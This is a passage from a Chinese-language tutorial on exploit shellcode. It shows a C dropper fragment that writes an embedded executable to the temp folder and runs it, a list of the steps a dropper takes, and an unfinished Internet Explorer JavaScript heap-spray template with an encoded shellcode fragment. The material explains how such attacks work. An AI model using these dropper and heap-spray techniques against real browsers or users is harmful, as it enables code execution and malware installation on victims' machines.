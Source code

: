```
    GetTempPathA(MAX_PATH,tempPath);            //获取temp路径
    strcat_s(tempPath,"winexe.exe");

    hExeFile = CreateFileA(tempPath,        //创建exe
                        GENERIC_WRITE,
                        FILE_SHARE_WRITE,
                        NULL,
                        CREATE_ALWAYS,
                        NULL,
                        NULL);
    WriteFile(hExeFile,
            exebuffer,
            sizeof(exebuffer),
            &dwWrite,
            NULL);
    CloseHandle(hFileHandle);
    CloseHandle(hExeFile);

    WinExec(tempPath,SW_SHOW);      //执行exe
}}

```

以释放并执行的行为伪代码作为例子，可以得到以下信息：

(1) ShellCode 使用操作系统的API 函数

(2) 主体文件路径必须要首先得到

(3) 通过偏移读取可执行文件

(4) 获取%temp%或其他路径

(5) 生成可执行程序并执行

ShellCode得以执行之前，还有很多漏洞利用方法，比如堆填充(Heap Spray)，绕过地址随机化(ASLR)+数据执行保护(DEP)。

**1 、Heap Spray**

堆填充在浏览器和Flash Player相关漏洞应用比较多，Adobe Reader 的早期漏洞也会使用这种方法。其核心思想是在进程内存空间中填充大量无用数据，漏洞触发之后通过相应技巧跳转到ShellCode。

常见是在IE浏览器中，简单示例代码如下：

```
<SCRIPT language="javascript">

    var heapSprayToAddress = 0x05050505;    //堆填充地址，最终会用来做shellcode执                                                //行地址
    var payLoadCode = unescape(             //ShellCode
    "%u9090%u9090%uE8FC%u0044%u0000%u458B%u8B3C%u057C%u0178%u8BEF%u184F%u5F8B%u0120");
    var heapBlockSize = 0x400000;       //堆填充大小
    var payLoadSize = payLoadCode.length * 2;
    var spraySlideSize = heapBlockSize - (payLoadSize+0x38);
    var spraySlide = unescape("%u0505%u0505");
    spraySlide = getSpraySlide(spraySlide,spraySlideSize);
    heapBlocks = (heapSprayToAddress - 0x400000)/heapBlockSize;
    memory = new Array();

    for (i=0;i<heapBlocks;i++)
    {
        memory[i] = spraySlide + payLoadCode;
    }

    for ( i = 0 ; i < 128 ; i++) 
    {
        try{ 
            var tar = new
```